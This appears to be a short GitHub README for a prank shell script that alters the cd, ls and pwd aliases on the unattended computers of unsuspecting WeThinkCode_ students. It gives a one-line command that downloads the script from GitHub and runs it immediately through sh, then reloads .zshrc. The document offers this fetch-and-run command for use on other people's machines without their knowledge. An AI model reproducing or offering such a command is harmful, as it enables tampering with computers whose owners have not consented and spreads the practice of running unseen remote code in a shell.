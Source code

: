 # shell
Shell script to change the aliases of shell commands: cd, ls and pwd of unsuspecting WeThinkCode_ students who leave their computers unattended.

https://raw.githubusercontent.com/TshireletsoMentor/shell/master/shell.sh

sh -c "$(curl -fsSl https://raw.githubusercontent.com/TshireletsoMentor/shell/master/shell.sh)"
source .zshrc
